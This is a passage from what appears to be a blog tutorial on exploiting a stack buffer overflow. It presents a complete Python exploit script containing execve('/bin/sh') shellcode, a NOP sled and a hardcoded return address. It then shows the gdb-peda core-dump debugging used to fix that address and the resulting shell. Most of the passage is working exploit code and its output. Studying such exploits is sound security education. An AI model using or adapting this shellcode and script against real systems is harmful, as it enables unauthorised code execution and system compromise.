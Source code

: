 
i2hs = int2hexstr

def list2hexstr(intlist, intsize=4):
    result = ""
    for value in intlist:
        if isinstance(value, str):
            result += value
        else:
            result += int2hexstr(value, intsize)
    return result

l2hs = list2hexstr

def exploit(vuln):
    padding = "A" * 76
    payload = [padding]
 
    shellcode = (
       "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
       "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
    )

    payload += [int2hexstr(0xbffff46c) +  nops(500) + shellcode] # put your payload here
    payload = list2hexstr(payload)
    args = [vuln, payload]
    env = {"PEDA":nops()}
    resource.setrlimit(resource.RLIMIT_STACK, (-1, -1))
    resource.setrlimit(resource.RLIMIT_CORE, (-1, -1))
    os.execve(vuln, args, env)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        usage()
    else:
        exploit(sys.argv[1])
{% endhighlight %}
Lets run it !!!!
```
  $ ./exploit.py ./vuln
  Illegal instruction (core dumped)
```
Why did this core dump? Well more likely that the address for our shellcode is
now wrong because we were running in gdb before. Luckily it has core dumped and
left a core file around so lets open this up in gdb 
```
  $ gdb ./vuln ./core
  gedb-peda$ stack
  Warning: not running or target is remote
  0000| 0xbffff820 (nop)
  0004| 0xbffff824 (nop)
  0008| 0xbffff828 (nop)
  0012| 0xbffff82c (nop)
  0016| 0xbffff830 (nop)
  0020| 0xbffff834 (nop)
  0024| 0xbffff838 (nop)
  0028| 0xbffff83c (nop)
```
As you can see the address is different we adjust this script to point to
0xbffff83c instead (the parameter to int2hexstr) and lets see how that works out
```
  $ ./exploit.py ./vuln
  AAAAAAAAAAAA.............
  $
```
Nice!! we ended up with a shell (those running bash will have seen their prompt
change
